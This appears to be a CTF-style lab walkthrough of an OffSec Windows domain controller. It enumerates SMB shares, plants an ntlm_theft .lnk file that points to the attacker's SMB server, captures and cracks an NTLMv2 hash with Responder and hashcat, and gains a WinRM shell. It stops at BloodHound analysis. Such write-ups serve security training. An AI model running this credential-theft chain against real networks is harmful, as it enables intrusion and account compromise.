




# Vault

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Advanced
Community Rating: Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 25
Number of Flags: 2
Lab Description:
A foothold on the target will be gained by using a writable SMB share to execute a URI file attack. Following 
this, SYSTEM privilege will be elevated by abusing write access on a Group Policy Object. This lab focuses on 
exploiting SMB vulnerabilities and privilege escalation techniques.
```

Machine link: [https://portal.offsec.com/machine/vault-33015/overview/details](https://portal.offsec.com/machine/vault-33015/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all TCP-ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ export TARGET_IP=192.168.162.172

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-15 15:02 +0100
Nmap scan report for 192.168.162.172
Host is up (0.038s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-15 14:04:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.vault.offsec
| Not valid before: 2026-11-14T14:01:07
|_Not valid after:  2027-05-16T14:01:07
|_ssl-date: 2026-11-15T14:05:56+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: VAULT
|   NetBIOS_Domain_Name: VAULT
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: vault.offsec
|   DNS_Computer_Name: DC.vault.offsec
|   DNS_Tree_Name: vault.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-15T14:05:17+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-11-15T14:05:21
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 203.16 seconds
```

We have the following TCP-services running and available:

- A Simple [DNS](https://en.wikipedia.org/wiki/Domain_Name_System) Plus server on port 53
- [Kerberos](https://en.wikipedia.org/wiki/Kerberos_(protocol)) on port 88
- [Microsoft Windows RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) on port 135
- [NetBIOS Session Service](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Session_service) on port 139
- An [LDAP](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol) server on port 389
- [SMB](https://en.wikipedia.org/wiki/Server_Message_Block) on port 445
- A [Global Catalog](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc728188(v=ws.10)) service on ports 3268
- [Microsoft Terminal Services (RDP)](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol) on port 3389
- A [WinRM](https://en.wikipedia.org/wiki/Windows_Remote_Management) service on port 5985

In short, this is a Windows domain controller for the domain `vault.offsec`.

### Update /etc/hosts

For convenience we will update our `/etc/hosts` file with the help of NetExec.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ nxc smb $TARGET_IP --generate-hosts-file hosts.txt
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.162.172 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:None)

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ cat hosts.txt 
192.168.162.172     DC.vault.offsec vault.offsec DC

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ sudo vi /etc/hosts 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ tail -n1 /etc/hosts
192.168.162.172     DC.vault.offsec vault.offsec
```

### Further Enumeration via SMB/RPC/LDAP

Next, we check for shares with NetExec but find none.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ nxc smb $TARGET_IP -u '' -p '' --shares
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.162.172 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:None)
SMB         192.168.162.172 445    DC               [-] vault.offsec\: STATUS_ACCESS_DENIED 
SMB         192.168.162.172 445    DC               [-] Error enumerating shares: Error occurs while reading from remote(104)

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ nxc smb $TARGET_IP -u Guest -p '' --shares
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB         192.168.162.172 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:None)
SMB         192.168.162.172 445    DC               [+] vault.offsec\Guest: 
SMB         192.168.162.172 445    DC               [*] Enumerated shares
SMB         192.168.162.172 445    DC               Share           Permissions     Remark
SMB         192.168.162.172 445    DC               -----           -----------     ------
SMB         192.168.162.172 445    DC               ADMIN$                          Remote Admin
SMB         192.168.162.172 445    DC               C$                              Default share
SMB         192.168.162.172 445    DC               DocumentsShare  READ,WRITE 
SMB         192.168.162.172 445    DC               IPC$            READ            Remote IPC
SMB         192.168.162.172 445    DC               NETLOGON                        Logon server share 
SMB         192.168.162.172 445    DC               SYSVOL                          Logon server share 
```

We have **write** access to the non-standard share `DocumentsShare`.

Let's see if there are any files available on the share.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ smbmap -H $TARGET_IP -u Guest --no-pass --depth 5 -r DocumentsShare

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB 
[*] Established 1 SMB connections(s) and 1 authenticated session(s) 
 
[+] IP: 192.168.162.172:445     Name: DC.vault.offsec           Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DocumentsShare                                          READ, WRITE
        ./DocumentsShare
        dr--r--r--                0 Sun Nov 15 15:14:20 2026    .
        dr--r--r--                0 Sun Nov 15 15:14:20 2026    ..
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
[*] Closed 1 connections 
```

Nope, nothing there!

### Create a malicious file

The name of the share suggests users might access it in search for documents. If we create a malicious file that redirect the user to our Kali machine we might be able to get a NTLM-hash over SMB.

The easiest way to do this is to use a tool such as [ntlm_theft](https://github.com/Greenwolf/ntlm_theft).

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ source ~/Python_venvs/ntlm_theft/bin/activate 

┌──(ntlm_theft)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ ntlm_theft -h
usage: ntlm_theft --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>

ntlm_theft by Jacob Wilkin(Greenwolf)

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -vv, --verbose        Verbose Mode
  -g, --generate {jnlp,rtf,all,zoom,htm,m3u,xml,desktopini,lnk,url,autoruninf,docx,xlsx,scf,application,wax,bat,asx,pdf,libraryms,modern,odt}
                        Choose to generate all files or a specific filetype
  -s, --server SERVER   The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
  -f, --filename FILENAME
                        The base filename without extension, can be renamed later (test, Board-Meeting2020, Bonus_Payment_Q4)

┌──(ntlm_theft)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ ntlm_theft -g lnk -s 192.168.45.192 -f click_me
Created: click_me/click_me.lnk (BROWSE TO FOLDER)
Generation Complete.

┌──(ntlm_theft)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ exiftool click_me/click_me.lnk
ExifTool Version Number         : 13.50
File Name                       : click_me.lnk
Directory                       : click_me
File Size                       : 2.2 kB
File Modification Date/Time     : 2026:11:15 15:40:02+01:00
File Access Date/Time           : 2026:11:15 15:40:02+01:00
File Inode Change Date/Time     : 2026:11:15 15:40:02+01:00
File Permissions                : -rwxrwxrwx
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, IconFile, Unicode, ExpString, TargetMetadata
File Attributes                 : Directory
Create Date                     : 2019:12:07 10:03:45+01:00
Access Date                     : 2020:12:28 20:07:09+01:00
Modify Date                     : 2020:12:28 11:40:05+01:00
Target File Size                : 16384
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Local Base Path                 : C:\Windows
Relative Path                   : ..\..\..\..\Windows
Icon File Name                  : \\192.168.45.192\tools\nc.ico
Environment Target              : %WINDIR%
Environment Target Unicode      : %WINDIR%
Machine ID                      : desktop-5gq41c0
```

OK, so far so good.

### Run responder

Next, we start Responder to listen to and capture the incoming hash. Make sure SMB is enabled.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ sudo responder -I tun0 
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [192.168.45.192]
    Responder IPv6             [fe80::c420:6958:76b7:43c6]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-Y8T8SRTYQS6]
    Responder Domain Name      [H15I.LOCAL]
    Responder DCE-RPC Port     [46632]

[+] Listening for events... 

```

### Upload the malicious file

Then we upload the malicious file to the share with `smbclient`.

```bash
┌──(ntlm_theft)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ cd click_me 

┌──(ntlm_theft)─(kali㉿kali)-[/mnt/…/PG_Practice/Advanced/Vault/click_me]
└─$ smbclient -N //$TARGET_IP/DocumentsShare 
Try "help" to get a list of possible commands.
smb: \> put click_me.lnk 
putting file click_me.lnk as \click_me.lnk (18.5 kB/s) (average 18.5 kB/s)
smb: \> ls
  .                                   D        0  Sun Nov 15 15:47:09 2026
  ..                                  D        0  Sun Nov 15 15:47:09 2026
  click_me.lnk                        A     2164  Sun Nov 15 15:47:09 2026

                7706623 blocks of size 4096. 893798 blocks available
smb: \> quit
```

### Crack the NTLMv2 hash

Within a short while we should get a captured hash in Responder:

```bash
<---snip--->
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 192.168.162.172
[SMB] NTLMv2-SSP Username : VAULT\anirudh
[SMB] NTLMv2-SSP Hash     : anirudh::VAULT:b90e5a34c40c5c34:DE920BC12A7F62EED7B00EE7B8AB3A0E:0101000000000000000EF1021875DD01F1B1FB9D4D1F76E10000000002000800480031003500490001001E00570049004E002D005900380054003800530052005400590051005300360004003400570049004E002D00590038005400380053005200540059005100530036002E0048003100350049002E004C004F00430041004C000300140048003100350049002E004C004F00430041004C000500140048003100350049002E004C004F00430041004C0007000800000EF1021875DD01060004000200000008003000300000000000000001000000002000003481C105AABBDED8CF47612E7D057ED3B21F862780FA890B3DBE48A0FF2196D40A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003100390032000000000000000000 
[*] Skipping previously captured hash for VAULT\anirudh
[*] Skipping previously captured hash for VAULT\anirudh
<---snip--->
```

We save the hash to a file and try to crack it with `hashcat` and the Rockyou wordlist.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ vi anirudh_hash.txt 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ hashcat --identify anirudh_hash.txt 
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   5600 | NetNTLMv2                                                  | Network Protocol


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ hashcat -m 5600 anirudh_hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #01: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2945/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (5982 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ANIRUDH::VAULT:b90e5a34c40c5c34:de920bc12a7f62eed7b00ee7b8ab3a0e:0101000000000000000ef1021875dd01f1b1fb9d4d1f76e10000000002000800480031003500490001001e00570049004e002d005900380054003800530052005400590051005300360004003400570049004e002d00590038005400380053005200540059005100530036002e0048003100350049002e004c004f00430041004c000300140048003100350049002e004c004f00430041004c000500140048003100350049002e004c004f00430041004c0007000800000ef1021875dd01060004000200000008003000300000000000000001000000002000003481c105aabbded8cf47612e7d057ed3b21f862780fa890b3dbe48a0ff2196d40a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00340035002e003100390032000000000000000000:SecureHM
 
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: ANIRUDH::VAULT:b90e5a34c40c5c34:de920bc12a7f62eed7b...000000
Time.Started.....: Sun Nov 15 15:54:50 2026 (7 secs)
Time.Estimated...: Sun Nov 15 15:54:57 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  1694.7 kH/s (2.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10616832/14344385 (74.01%)
Rejected.........: 0/10616832 (0.00%)
Restore.Point....: 10608640/14344385 (73.96%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: Sekhmet* -> Saboka54
Hardware.Mon.#01.: Util: 30%

Started: Sun Nov 15 15:54:26 2026
Stopped: Sun Nov 15 15:54:58 2026
```

Ah, we have a set of credentials:

- Username: `VAULT\anirudh`
- Password: `SecureHM`

### Check our access

To check what access the account have we use [nxc-sweep](https://github.com/corey-farley/nxc-sweep).

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ nxc-sweep $TARGET_IP -u anirudh -p 'SecureHM'   
[*] Starting NXC sweep for 192.168.162.172 as anirudh ...
 
[-] Port 445 closed/filtered. Skipping smb 
 
[+] Port 5985 open. Checking winrm ... 
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block 
  return result 
WINRM       192.168.162.172 5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:vault.offsec) 
WINRM       192.168.162.172 5985   DC               [+] vault.offsec\anirudh:SecureHM (Pwn3d!)

[+] Port 3389 open. Checking rdp ...
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block 
  return result 
/usr/lib/python3/dist-packages/pyparsing/core.py:5579: SyntaxWarning: 'return' in a 'finally' block 
  return f"{type(self).__name__}: {retString}" 
RDP         192.168.162.172 3389   DC               [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC) (domain:vault.offsec) (nla:False) 
RDP         192.168.162.172 3389   DC               [+] vault.offsec\anirudh:SecureHM 

[-] Port 1433 closed/filtered. Skipping mssql
 
[-] Port 21 closed/filtered. Skipping ftp 
 
[*] All active services checked.   
```

We have WinRM access and can connect with Evil-WinRM.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ evil-winrm -i $TARGET_IP -u anirudh -p 'SecureHM' 
 
Evil-WinRM shell v3.7
 
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\anirudh\Documents> whoami
vault\anirudh
*Evil-WinRM* PS C:\Users\anirudh\Documents> 
```

### Get the user flag

The user flag is now available to us.

```bash
*Evil-WinRM* PS C:\Users\anirudh\Documents> type ../Desktop/local.txt
9<REDACTED>0
*Evil-WinRM* PS C:\Users\anirudh\Documents> 
```

### BloodHound Data Collection

Next, we collect bloodhound data with NetExec.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ nxc ldap $TARGET_IP --dns-server $TARGET_IP -u anirudh -p 'SecureHM' --bloodhound -c all
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.162.172 389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:vault.offsec) (signing:None) (channel binding:No TLS cert) 
LDAP        192.168.162.172 389    DC               [+] vault.offsec\anirudh:SecureHM (Pwn3d!)
LDAP        192.168.162.172 389    DC               Resolved collection methods: psremote, dcom, rdp, trusts, localadmin, group, objectprops, session, acl, container
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
<---snip--->
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.162.172 389    DC               Done in 0M 22S
LDAP        192.168.162.172 389    DC               Compressing output into /home/kali/.nxc/logs/DC_192.168.162.172_2026-11-15_160357_bloodhound.zip
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ cp /home/kali/.nxc/logs/DC_192.168.162.172_2026-11-15_160357_bloodhound.zip bloodhound.zip
```

And start BloodHound/Neo4j.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Vault]
└─$ bloodhound-start
[sudo] password for kali: 
Starting neo4j
Neo4j is not running.
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:48313). It is available at http://localhost:7474
There may be a short delay until the server is ready.
............................................................................................................

┏━(Message from Kali developers)
┃ 
┃ Please wait for the bloodhound service to start
┃ ....................
┃ [*] Web UI: http://127.0.0.1:8080
┃ [i] You might need to refresh your browser once it opens
┃ 
┃  Default credentials:
┃    user: admin
┃    password: admin
┃ 
┗━
```

### BloodHound Data Analysis

We then login and delete our previous collected data.  
Select `Administration`, then `Database Management` and enable all check-boxes.



Next, we load our new data from `Quick Upload`.

After the loading is complete, we select `Explore` and search for the users have have credentials for and Add them to Owned:

- `anirudh`

We can then show them with the following cypher-query:

`MATCH (n) WHERE n:Tag_Owned RETURN n`



Then we run the `Shortest paths from Owned object` query under `Cypher` and `Saved Queries`:



